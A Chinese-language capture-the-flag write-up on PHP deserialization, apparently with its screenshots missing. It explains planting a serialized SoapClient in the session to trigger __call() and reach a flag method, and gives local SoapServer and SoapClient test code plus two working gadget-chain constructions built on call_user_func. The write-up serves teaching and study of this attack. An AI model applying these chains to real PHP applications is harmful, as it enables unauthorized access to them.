`__call()调用时就会访问对应的target`

我们可以上传序列化的Soapclient，那么如何反序列化呢？如何触发呢？


大致思路就明确了：
我们先上传Soapclient序列化的文件到对应的SESSION中，然后会自动反序列化，接着我们调用Soapclient不存在的方法，这样就会调用__call()函数，这样就能访问interface.php了,若存在对应的方法，就会返回方法的返回值~~

`若是target为index.php?method=get_flag是不会有返回值的，因为这样没有实例化Soapclient，如果我们调用interface.php就会实例化Soapclient类，这样才能有交互，才能返回值`

```
 <?php   
    include('Service.php');
    $ser = new SoapServer('Service.wsdl',array('soap_version'=>SOAP_1_2));
    $ser->setClass('Service');
    $ser->handle();
?> 
```

我们可以在本地实验一下： 服务器端server.php

```
<?php 

class Service
{
	public function Get_flag(){
		return "flag{xxx}";
	}
}

$ser = new SoapServer(null,array('uri'=>'sampleA'));
$ser->setClass('Service');
$ser->handle();

 ?> 
```

客户端client.php

```
<?php
$client = new SoapClient(null, array(
        'location'=>'http://127.0.0.1/soap/server.php',
        'uri'=>'sampleA'
        ));

echo $client->Get_flag(); 
```

接着就是构造反序列链了

```
<?php
class bb
{
    public $mod1;
    public $mod2;

    public function __construct()
    {
        $this->mod1 = new aa();
    }
}

class aa
{
    public $mod1;
    public $mod2 = [];

    public function __construct()
    {
        $this->mod2['test2'] = new cc();
    }
}

class cc
{
    public $mod1;
    public $mod2;
    public $mod3;

    public function __construct()
    {
        $this->mod3 = new ee();
        $this->mod2 = &$_SESSION['a'];
        $this->mod1 = "fuck";
    }
}

class ee
{
    public $str1;
    public $str2;

    public function __construct()
    {
        $this->str1 = new dd();
        $this->str2 = "getflag";
    }
}

class dd
{
    public $name;
    public $flag;
    public $b;

    public function __construct()
    {
        $this->b = "call_user_func";
        $this->flag =  "Get_flag";
    }
}

$b = new bb();
echo serialize($b); 
```

这种构造方法很新颖，值得学习~~

另外一种构造方法

```
$a = new aa();
$b = new bb();
$c = new cc();
$d = new dd();
$e = new ee();

$d->b = 'call_user_func';
$d->flag = 'Get_flag';

$e->str1 = $d;
$e->str2 = 'getflag';

$c->mod3 = $e;
$c->mod1 = $e;

$a->mod2 = array('test2'=> $c);

$b->mod1 = $a;

$x = serialize($b);

unserialize($x); 
```



__toString() 方法用于一个类被当成字符串时应怎样回应

需要指出的是在 PHP 5.2.0 之前，__toString() 方法只有在直接使用于 echo 或 print 时才能生效。PHP 5.2.0 之后，则可以在任何字符串环境生效（例如通过 printf()，使用 %s 修饰符），但不能用于非字符串环境（如使用 %d 修饰符）。自 PHP 5.2.0 起，如果将一个未定义 __toString() 方法的对象转换为字符串，会产生 E_RECOVERABLE_ERROR 级别的错误。

当尝试以调用函数的方式调用一个对象时，__invoke() 方法会被自动调用。

在对象中调用一个不可访问方法时，__call() 会被调用。

读取不可访问属性的值时，__get() 会被调用
这儿的reset($_SESSION)好好理解一下
reset将指定指向数组的第一个值，同事返回这个值。
这个时候SESSION已经返反序列化了，所以reset($_SESSION)就是指我们是实例化的Soapclient类